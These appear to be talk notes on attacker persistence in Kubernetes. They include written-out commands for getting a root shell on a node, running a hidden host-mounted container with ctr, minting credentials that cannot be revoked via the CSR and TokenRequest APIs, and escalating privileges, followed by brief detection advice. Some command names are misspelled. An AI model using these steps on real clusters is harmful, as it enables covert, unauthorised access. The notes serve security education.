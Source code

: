 # Attacker Persistence Strategies in Kubernetes (Rory McCune)

attack scenario: a laptop with cluster-admin credentials is left unattended in
a Hamburg cafe

ways an attacker could start a hidden malicious container:

- start it with `ctr`
- create a static pod manifest with an invalid namespace, so that it never
  registers in k8s
- create a tunnel (e.g. with tailscale) inside the container, then you can ssh
  back to the node from tailscale

```bash
kubectl debug node/<node-name> --profile=sysadmin

chroot /host

ctr -n sysf-net_mon run --net-host -d \
  --mount type=bind,src=/,dst=/host,options=rbind:ro \
  docker-remote.repo.pnet.ch/sysnetmon/systemd_net_mon:latest sys_net_mon

```

## attacking through kubelet api

first: use the User CSR API to create credentials (which cannot be revoked)

```
# issue a User CSR
teisteanas -username system:gke-internal-asdf

kubectlctl -s 127.0.0.1 -k malicious-kubelet-config
```

other solution: using the ToquenRequest API

```
# tocan is a small utility which uses the ToquenRequestAPI to create kubeconfig files
tocan -namespace kube-system -service-account clusterrole-aggregation-controller
```

fun fact: `clusterrole-aggregation-controller` service account is allowed to
escalate clusterroles !

```
# first, edit your kubeconfig and ask for *.*.* permission. then enjoy
kubectl auth can-i --list
```

## ways to prevent/detect

- audit logs retention and analysis
- node agents might detect such attacks
- node logs
- least privilege: do not use cluster-admin level unless actually needed.

## last word

> we are all made of stars, but your rbac shouldn't be! @IanColdwater
